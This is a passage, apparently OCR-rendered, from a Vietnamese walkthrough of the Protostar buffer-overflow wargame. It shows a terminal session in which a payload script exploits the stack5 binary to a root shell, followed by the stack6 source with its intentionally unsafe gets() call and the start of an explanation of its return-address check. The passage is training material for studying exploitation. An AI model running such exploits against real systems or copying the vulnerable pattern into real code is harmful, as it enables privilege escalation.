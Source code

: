 ```
user@protostar:/opt/protostar/bin$ python /tmp/payload_st5.py > /tmp/payload_st5
user@protostar:/opt/protostar/bin$ cat /tmp/payload_st5 - | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami 
root
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```

# 7. Stack6  
## Source code  
```
 1 #include <stdlib.h>
 2 #include <unistd.h>
 3 #include <stdio.h>
 4 #include <string.h>
 5
 6 void getpath()
 7 {
 8   char buffer[64];
 9   unsigned int ret;
10
11   printf("input path please: "); fflush(stdout);
12
13   gets(buffer);
14
15   ret = __builtin_return_address(0);
16
17   if((ret & 0xbf000000) == 0xbf000000) {
18     printf("bzzzt (%p)\n", ret);
19     _exit(1);
20   }
21
22   printf("got path %s\n", buffer);
23 }
24
25 int main(int argc, char **argv)
26 {
27   getpath();
28
29
30
31 }
```
Trong bài này ta khôn thể sử dụng cách như stack5 được vì đoạn code dưới đây:  
```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```
Đoạn code này sẽ chặn việc trả về của ta trong khoảng từ `0xbf000000` đến `0xbfffffff`, để dễ hiểu thì hãy lấy ví dụ như này:  
```
giả sử ret = 0xbf333333
	ret & 0xbf000000

	0xbf333333 
```
